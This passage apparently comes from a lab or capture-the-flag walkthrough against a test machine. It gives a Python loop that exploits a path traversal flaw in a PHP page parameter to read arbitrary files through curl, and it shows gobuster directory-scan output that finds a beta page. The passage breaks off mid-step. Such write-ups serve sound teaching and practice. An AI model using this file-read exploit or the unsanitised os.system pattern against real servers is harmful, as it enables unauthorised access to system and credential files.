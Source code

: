 I was a bit lazy, so I created a quick Python script to read the files:

```python
import os

while True:
	file = input("File: ")
	os.system(f'curl http://10.129.227.96/index.php?page=../../../../../../../..{file}')
```

I still ran a `gobuster` scan to enumerate any other pages:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.227.96 -x html,txt,php -t 100 -k
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.227.96
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2023/05/10 23:19:47 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [-> /index.php?page=default.html]
/default.html         (Status: 200) [Size: 11414]
/assets               (Status: 301) [Size: 162] [-> http://10.129.227.96/assets/]
/css                  (Status: 301) [Size: 162] [-> http://10.129.227.96/css/]
/beta.html            (Status: 200) [Size: 4144]
/js                   (Status: 301) [Size: 162] [-> http://10.129.227.96/js/]
```

`beta.html` contained a file upload that did nothing, but it revealed some information regarding an `activate_license` application present:

<figure><img src="../../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>

We can fuzz to find this binary somewhere. Create a quck file with PATH variables:
